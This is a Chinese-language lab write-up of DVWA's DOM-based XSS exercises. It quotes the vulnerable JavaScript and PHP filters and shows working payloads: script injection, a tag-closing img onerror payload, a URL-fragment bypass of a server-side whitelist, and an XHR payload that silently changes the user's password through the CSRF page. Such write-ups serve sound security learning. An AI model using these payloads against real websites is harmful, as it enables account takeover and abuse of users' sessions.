 ```yaml
---
title: DVWA上手记录-DOM型XSS
slug: get-start-dvwa-09
date: 2022-04-28 15:17:00
categories:
- security
tags:
- security
- dvwa
---
```


## 前言

终于做到了XSS题。先尝试把DOM型XSS做完。

## 原理

用JavaScript操作dom的时候没对用户数据做好过滤，导致将用户数据当HTML/JS解释执行。

## 解题

### Low难度：收集信息

![image-20220428135841918](image-20220428135841918.png)

![image-20220428135846382](image-20220428135846382.png)

![image-20220428140052002](image-20220428140052002.png)

所有值得关注的东西就是这些。

目标是获取用户的 Cookie。这里就尝试发起一个 CSRF攻击。

### Low难度：解题

两个写入DOM的地方，一个是 `+ lang +`，一个是 `decodeURI(lang)`。`decodeURI`更好操作一些，尝试注入一个合法标签，直接写`<script>alert(1);</script>`。

![image-20220428142334193](image-20220428142334193.png)

注入成功。

### Medium难度：解题

惊了，看起来js没变化。

```js
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
    document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}

document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
```

尝试用Low难度的payload，发现被跳转：

![image-20220428142754536](image-20220428142754536.png)

大概是做了过滤，虽然有网上随便找的一堆 xss payload 但不想无脑试过去。看一眼源码。

```php

<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

一个很鸡的过滤，`stripos`忽略大小写所以大小写 bypass 不行，一次 URI 编码也不行。考虑不用 `script` 标签，直接把 `option`和`select` 标签闭合了，然后插一个别的标签比如`img`。

payload就改成这样。

```html
</option></select><img src="" onerror=alert(1)>
```

![image-20220428144330839](image-20220428144330839-16511282123961.png)

也暴力解开了。

### High难度：解题

还是直接试一次刚才的payload，果不其然302了。看看代码。

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

白名单？这我有点不懂了。想一想先。

想 bypass 显然不能等进入 `switch`，只能在 `if` 这里就直接过，所以问题就是`array_key_exists`和`is_null`这两个函数能不能 bypass 。

没什么用的分析略，行不通。

不过还是有办法，可以用 URL 里的 Fragment。（url里的`#fragment`部分）。因为JS代码里是这么写的：

```js
var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
```

直接从`href`里取`substring`，偏移值是`href.indexOf`获得，并没有考虑是从 QueryString 还是 Fragment 取值。所以完全可以把原先的payload加上一个`#`解决问题。

![image-20220428145238725](image-20220428145238725.png)

好吧，我承认看了下帮助，差点钻了php的牛角尖，去硬找方法 bypass 服务端的检查。

### CSRF：解题

主要是解决 Cookies 默认 `samesite: lax` 导致的 xhr 行不通的问题。

把 payload 改成下面这样。

```html
</option></select><img src="" onerror="let xhr = new XMLHttpRequest(); xhr.open('get', 'http://localhost:8080/vulnerabilities/csrf/?password_new=xss&password_conf=xss&Change=Change'); xhr.withCredentials=true; xhr.send();">
```

![image-20220428150236560](image-20220428150236560.png)

![image-20220428150255678](image-20220428150255678.png)

然后验证下修改的密码`xss`是否有效。

![image-20220428150319091](image-20220428150319091.png)

相应的，提高到 Medium 和 High 难度其实也没有难度了。

Medium难度的 CSRF 只检查了 Host，XSS 方式发起的 CSRF 攻击无法通过检查同源和`Host`来解决。但严格检查 `Referer` 的话还是有可能发现的。

High 难度的 CSRF 添加了 `csrf_token`，但是 XSS 方式发起攻击完全可以 xhr 请求到表单页面的 HTML，也就可以拿到 token，`csrf_token` 无法防御。

## 总结

这个 XSS 题花样还是有点少，我还是挺期待能把大佬玩出花的 XSS payload 都学一学在什么场景玩，什么原因研发出来的。

将来有机会应该会找找有没有比较好玩的 XSS 靶场练练手。